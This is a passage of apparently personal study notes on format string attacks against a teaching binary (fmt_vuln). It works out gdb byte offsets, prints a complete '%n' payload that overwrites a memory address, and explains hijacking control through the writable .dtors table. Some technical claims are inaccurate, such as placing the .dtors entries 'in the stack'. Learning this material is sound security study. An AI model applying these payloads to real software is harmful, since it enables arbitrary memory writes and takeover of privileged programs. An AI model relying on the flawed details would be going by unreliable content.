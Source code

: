           ```
          This changes overrides the memory location and changes the value to 16 bytes which is the value of the 4 words. Next we can do some math to calculate the number of bits that need to be written for each byte of the memory address. This is done by starting with the 16 bytes and then calculating the offsets for each following byte via subtraction
          ```
          reader@hacking:~/booksrc $ gdb -q
          (gdb) p 0x72 - 16
          $1 = 98
          (gdb) p 0xfd - 0x72
          $2 = 139
          (gdb) p 0xff - 0xfd
          $3 = 2
          (gdb) p 0x1ff - 0xfd
          $4 = 258
          (gdb) p 0xbf - 0xff
          $5 = -64
          (gdb) p 0x1bf - 0xff
          $6 = 192
          (gdb) quit
          ```
          With these offsets in mind, starting with ```%98x%4\$n``` we should be able to build a string that will override the entire memory address in one call.that will look something like
          ```
          reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08". "\x96\x97\x04\x08" ."\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n%258x%6\$n%192x%7\$n
          The right way to print user-controlled input:
          ????????%98x%4$n%139x%5$n%258x%6$n%192x%7$n
          The wrong way to print user-controlled input:
          ???????? 
                                                                          bffff3b0
                                                          b7fe75fc
                                      0
                                            8049794
          [*] test_val @ 0x08049794 = -1073742478 0xbffffd72
          ```
        </details>   

### Destructors (.dtors)
In C objects (to include functions like main) are paired with constructors and destructors which allocate and release resources when objects come in and out of scope. If these are not user defined, the compiler will simply choose the defaults. Functions can be defined as destructors by specifying the attribute in the function prototype ex: 
```c
static void cleanup(void) __attribute__ ((destructor));
```
Using the ```nm``` command, we can inspect the destructors, the addresses to these functions are stored sequentially in the stack, beginning at ```__DTOR_LIST__``` and ```__DTOR_END__``` these addresses should hold the values of```0x00000000``` and ```0xffffffff``` respectively. If no user defined destructors exist, these memory addresses will only be 4 bytes apart, otherwise a pointer to a user defined destructor will reside here. *Note: you can also use ```objdump``` to just print the destructor table.
```
reader@hacking:~/booksrc $ objdump -s -j .dtors ./fmt_vuln

./fmt_vuln:     file format elf32-i386

Contents of section .dtors:
 8049690 ffffffff 00000000 
```
It is important to note that the destructors table is writable (if you want to fact check me, run a ```objdump -h``` on a file and notice the lack of a READONLY attribute) given this fact if we have a program that runs under root privileges we can combine this with other techniques such as format string/buffer overflow exploits to control execution flow.